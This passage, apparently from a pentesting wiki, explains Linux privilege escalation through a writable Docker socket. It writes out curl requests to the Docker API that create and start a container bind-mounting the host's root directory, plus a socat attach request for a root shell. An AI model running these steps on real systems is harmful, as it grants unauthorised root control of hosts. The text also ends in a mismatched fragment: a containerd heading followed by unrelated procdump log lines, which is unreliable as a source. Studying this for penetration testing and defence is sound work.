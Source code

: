 These commands allow you to run a container with root-level access to the host's file system.

#### **Using Docker API Directly**

In cases where the Docker CLI isn't available, the Docker socket can still be manipulated using the Docker API and `curl` commands.

1.  **List Docker Images:** Retrieve the list of available images.

    ```bash
    curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
    ```

2.  **Create a Container:** Send a request to create a container that mounts the host system's root directory.

    ```bash
    curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
    ```

    Start the newly created container:

    ```bash
    curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
    ```

3.  **Attach to the Container:** Use `socat` to establish a connection to the container, enabling command execution within it.

    ```bash
    socat - UNIX-CONNECT:/var/run/docker.sock
    POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
    Host:
    Connection: Upgrade
    Upgrade: tcp
    ```

After setting up the `socat` connection, you can execute commands directly in the container with root-level access to the host's filesystem.

### Others

Note that if you have write permissions over the docker socket because you are **inside the group `docker`** you have [**more ways to escalate privileges**](interesting-groups-linux-pe/index.html#docker-group). If the [**docker API is listening in a port** you can also be able to compromise it](../../network-services-pentesting/2375-pentesting-docker.md#compromising).

Check **more ways to break out from docker or abuse it to escalate privileges** in:


{{#ref}}
docker-security/
{{#endref}}

## Containerd (ctr) privilege escalation


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714